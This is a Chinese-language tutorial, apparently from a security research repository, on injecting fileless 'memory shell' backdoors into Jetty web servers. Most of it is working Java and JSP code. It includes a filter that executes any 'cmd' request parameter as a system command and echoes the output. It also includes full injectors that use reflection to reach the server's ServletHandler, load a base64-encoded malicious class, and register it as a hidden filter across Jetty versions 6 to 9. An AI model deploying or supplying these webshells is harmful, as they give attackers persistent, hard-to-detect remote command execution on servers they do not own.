





目录
- [Jetty部分源码剖析](https://github.com/pen4uin/JavaSec/blob/main/fileless-shell/jetty/%E5%85%B3%E4%BA%8EJetty.md)
- 无文件马
  - WebAppContext
    - 通过Mbean获取Context
    - 通过currentThread获取Context
  - Filter
    - 静态添加 Filter(基于web.xml)
    - 动态添加 Filter(基于addFilter API)
    - 适配Jetty v6.x/7.x/8.x/9.x

## 无文件马

### WebAppContext

#### 通过Mbean获取Context

- 参考
  - https://paper.seebug.org/1441/#2mbeancontext
  - https://www.coder.work/article/5540502

getConext.jsp

```java
<%
    try{
        JmxMBeanServer jmxMBeanServer = (JmxMBeanServer) ManagementFactory.getPlatformMBeanServer();
        // 获取mbsInterceptor
        Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
        field.setAccessible(true);
        Object mbsInterceptor = field.get(jmxMBeanServer);
        // 获取repository
        field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
        field.setAccessible(true);
        Repository repository = (Repository) field.get(mbsInterceptor);
        /**
         * ObjectName 表示一个Mbean的对象名称
         * repository.query()
         *     选择并检索名称与指定对象名称模式匹配并与指定查询表达式匹配的mbean列表(可选)。
         *         参数:
         *             pattern——要检索的MBean的名称——可以是一个特定的对象，也可以是允许选择多个MBean的名称模式。
         *             query -选择对象时要应用的查询表达式-当存储库服务不支持筛选时，此参数将被忽略。
         *             返回:
         *                 选中的mbean列表。集合中可能返回0个、一个或多个mbean。
         */
        Set<NamedObject> namedObjectSet = repository.query(new ObjectName("org.eclipse.jetty.webapp:type=webappcontext,*"), null);
        for (NamedObject namedObject : namedObjectSet) {
            out.write(String.valueOf(namedObject));
        }

    }catch (Exception e){
        e.printStackTrace();
    }

%>
```


此时需要获取到对应WebAppContext


通过反射获取

```java
field = namedObject.getObject().getClass().getSuperclass().getSuperclass().getDeclaredField("_managed");
field.setAccessible(true);
Object webAppContext = field.get(namedObject.getObject());
```


代码整合为

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="com.sun.jmx.mbeanserver.JmxMBeanServer" %>
<%@ page import="com.sun.jmx.mbeanserver.Repository" %>
<%@ page import="com.sun.jmx.mbeanserver.NamedObject" %>
<%@ page import="java.util.Set" %>
<%@ page import="javax.management.ObjectName" %>

<%
    try{
        JmxMBeanServer jmxMBeanServer = (JmxMBeanServer) ManagementFactory.getPlatformMBeanServer();
        Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
        field.setAccessible(true);
        Object mbsInterceptor = field.get(jmxMBeanServer);
        field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
        field.setAccessible(true);
        Repository repository = (Repository) field.get(mbsInterceptor);
        Set<NamedObject> namedObjectSet = repository.query(new ObjectName("org.eclipse.jetty.webapp:type=webappcontext,*"), null);
        for (NamedObject namedObject : namedObjectSet) {
            field = namedObject.getObject().getClass().getSuperclass().getSuperclass().getDeclaredField("_managed");
            field.setAccessible(true);
            Object webAppContext = field.get(namedObject.getObject());
            out.write(webAppContext.getClass().getName());
        }

    }catch (Exception e){
        e.printStackTrace();
    }
%>

```

测试效果：



#### 通过currentThread获取Context



```java
ClassLoader webAppClassLoader= Thread.currentThread().getContextClassLoader();
Field _context = webAppClassLoader.getClass().getDeclaredField("_context");
_context.setAccessible(true);
Object webAppContext = _context.get(webAppClassLoader);
Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
_servletHandler.setAccessible(true);
Object servletHandler = _servletHandler.get(webAppContext);
```


### Filter

#### 静态添加 Filter(基于web.xml)

##### Filter Demo

com.example.jetty9.filter.FilterDemo

```java
public class FilterDemo implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        if (servletRequest instanceof HttpServletRequest) {
            HttpServletRequest httpRequest = (HttpServletRequest) servletRequest;
            System.out.println(httpRequest.getServletPath());

            SimpleDateFormat sdf = new SimpleDateFormat();
            sdf.applyPattern("yyyy-MM-dd HH:mm:ss");
            Date date = new Date();
            System.out.println("JettyFilter触发时间：" + sdf.format(date));
            filterChain.doFilter(servletRequest,servletResponse);
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

web.xml配置如下

```xml
<filter>
	<filter-name>FilterDemo</filter-name>
	<filter-class>com.example.jetty9.filter.FilterDemo</filter-class>
</filter>
<filter-mapping>
	<filter-name>FilterDemo</filter-name>
	<url-pattern>/filter</url-pattern>
</filter-mapping>
```

测试效果如图


##### Filter Cmd

com.example.jetty9.filter.FilterCmd

```java
public class FilterCmd implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream())
            );
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy () {
    }
}
```


web.xml配置如下

- 当访问/filter路由时即可触发该filter

```xml
<filter>
    <filter-name>FilterCmd</filter-name>
    <filter-class>com.example.jetty9.filter.FilterCmd</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterCmd</filter-name>
    <url-pattern>/filter</url-pattern>
</filter-mapping>
```

测试效果如图



#### 动态添加 Filter(基于addFilter API)

##### _servletHandler


- 通过Mbean的方式获取context后，context 获取其父类 ServletContextHandler的ServletHandler类型的私有变量_servletHandler，它实现了Servlet规范中Filter、Servlet的基本处理逻辑(重点)。

反射获取

```java
Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
_servletHandler.setAccessible(true);
Object servletHandler = field.get(webAppContext);
```

##### defineClass

- 反射调用defineClass还原出base64_str中的evilFilter类

```java
ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
BASE64Decoder base64Decoder = new BASE64Decoder();
byte[] bytes = base64Decoder.decodeBuffer("base64_str");
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
defineClass.setAccessible(true);
Class evilFilter = (Class) defineClass.invoke(contextClassLoader, bytes, 0, bytes.length);
```


##### newFilterHolder


- 参数 source
  - 标识FilterHolder的来源，此处为JAVAX_API


反射调用创建FilterHolder

- FilterHolder 是 Filter  的包装类，每一个Filter与其拦截路径的映射会被封装成 FilterMapping。

```java
ClassLoader classLoader = servletHandler.getClass().getClassLoader();
Class source = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
Field JAVAX_API= source.getDeclaredField("JAVAX_API");
Method method = servletHandler.getClass().getMethod("newFilterHolder", source);
Object filterHolder  = method.invoke(servletHandler, JAVAX_API.get(null));
```

反射调用setName和setFilter

```java
Method setName = filterHolder.getClass().getMethod("setName", String.class);
setName.invoke(filterHolder, evilFilter.getName());
Method setFilter = filterHolder.getClass().getMethod("setFilter", Filter.class);
setFilter.invoke(filterHolder, evilFilter.newInstance());
```

##### addFilter



```java
Method addFilter = servletHandler.getClass().getMethod("addFilter", filterHolder.getClass());
addFilter.invoke(servletHandler, filterHolder);
```

##### FilterMapping

- 设置路径映射等信息


```java
Class FilterMapping = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
Object filterMapping = FilterMapping.newInstance();
Method setFilterHolder = filterMapping.getClass().getDeclaredMethod("setFilterHolder", filterHolder.getClass());
setFilterHolder.setAccessible(true);
setFilterHolder.invoke(filterMapping, filterHolder);
Method setPathSpecs = filterMapping.getClass().getMethod("setPathSpecs", String[].class);
setPathSpecs.invoke(filterMapping, new Object[]{new String[]{"/aaaa"}});
Method setDispatcherTypes = filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class);
setDispatcherTypes.invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
```

##### prependFilterMapping

- 使用prependFilterMapping 把 filter 加到最前面

```java
Method prependFilterMapping = servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass());
prependFilterMapping.invoke(servletHandler, filterMapping);
```

代码整合如下

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="com.sun.jmx.mbeanserver.JmxMBeanServer" %>
<%@ page import="com.sun.jmx.mbeanserver.Repository" %>
<%@ page import="com.sun.jmx.mbeanserver.NamedObject" %>
<%@ page import="java.util.Set" %>
<%@ page import="javax.management.ObjectName" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%@ page import="java.util.EnumSet" %>

<%
    try{
        JmxMBeanServer jmxMBeanServer = (JmxMBeanServer) ManagementFactory.getPlatformMBeanServer();
        Field mbsInterceptorF = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
        mbsInterceptorF.setAccessible(true);
        Object mbsInterceptor = mbsInterceptorF.get(jmxMBeanServer);
        Field repositoryF = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
        repositoryF.setAccessible(true);
        Repository repository = (Repository) repositoryF.get(mbsInterceptor);
        Set<NamedObject> namedObjectSet = repository.query(new ObjectName("org.eclipse.jetty.webapp:type=webappcontext,*"), null);
        for (NamedObject namedObject : namedObjectSet) {
            Field _managedF = namedObject.getObject().getClass().getSuperclass().getSuperclass().getDeclaredField("_managed");
            _managedF.setAccessible(true);
            Object webAppContext = _managedF.get(namedObject.getObject());
            Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
            _servletHandler.setAccessible(true);
            Object servletHandler = _servletHandler.get(webAppContext);
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            BASE64Decoder base64Decoder = new BASE64Decoder();
            byte[] bytes = base64Decoder.decodeBuffer("yv66...");
            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class evilFilter = (Class) defineClass.invoke(contextClassLoader, bytes, 0, bytes.length);
            ClassLoader classLoader = servletHandler.getClass().getClassLoader();
            Class source = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
            Field JAVAX_API= source.getDeclaredField("JAVAX_API");
            Method method = servletHandler.getClass().getMethod("newFilterHolder", source);
            Object filterHolder  = method.invoke(servletHandler, JAVAX_API.get(null));
            filterHolder.getClass().getMethod("setName", String.class).invoke(filterHolder, evilFilter.getName());
            filterHolder.getClass().getMethod("setFilter", Filter.class).invoke(filterHolder, evilFilter.newInstance());
            servletHandler.getClass().getMethod("addFilter", filterHolder.getClass()).invoke(servletHandler, filterHolder);
            Class FilterMapping = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
            Object filterMapping = FilterMapping.newInstance();
            Method setFilterHolder = filterMapping.getClass().getDeclaredMethod("setFilterHolder", filterHolder.getClass());
            setFilterHolder.setAccessible(true);
            setFilterHolder.invoke(filterMapping, filterHolder);
            filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{"/aaaa"}});
            filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
            servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
            out.write("<br>" + evilFilter.getName() + " Inject Successfully!");
        }

    }catch (Exception e){
        e.printStackTrace();
    }
%>

```

测试效果




#### 适配Jetty v6.x/7.x/8.x/9.x

- 使用Jetty封装好的方法addFilterWithMapping实现动态添加Filter、代码简洁。

```jsp
<%
    try{
        ClassLoader webAppClassLoader= Thread.currentThread().getContextClassLoader();
        java.lang.reflect.Field _context = webAppClassLoader.getClass().getDeclaredField("_context");
        _context.setAccessible(true);
        Object webAppContext = _context.get(webAppClassLoader);
        java.lang.reflect.Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
        _servletHandler.setAccessible(true);
        Object servletHandler = _servletHandler.get(webAppContext);
        ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
        Class evilFilter;
        try{
            evilFilter = contextClassLoader.loadClass("com.example.jetty.filter.FilterCmd");
        }catch(ClassNotFoundException e){
            sun.misc.BASE64Decoder base64Decoder = new sun.misc.BASE64Decoder();
            byte[] bytes = base64Decoder.decodeBuffer("yv66vg...");
            java.lang.reflect.Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            evilFilter = (Class) defineClass.invoke(contextClassLoader, bytes, 0, bytes.length);
        }
        /**
         *  Tested version:
         *      6.x (6.1.26)
         *      7.x (7.5.0)
         *      8.x (8.2.0)
         *      9.x (9.4.43)
         */
        try{
            servletHandler.getClass().getMethod("addFilterWithMapping", String.class, String.class, java.util.EnumSet.class).invoke(servletHandler,evilFilter.getName(),"/aaaa",java.util.EnumSet.of(DispatcherType.REQUEST));
        }catch (Exception e){
            servletHandler.getClass().getMethod("addFilterWithMapping", String.class, String.class,int.class).invoke(servletHandler, evilFilter.getName(),"/aaaa", 1);
        }
        out.write("<br>" + evilFilter.getName() + " Inject Successfully!");
    }catch (Exception e){
        e.printStackTrace();
    }
%>

```

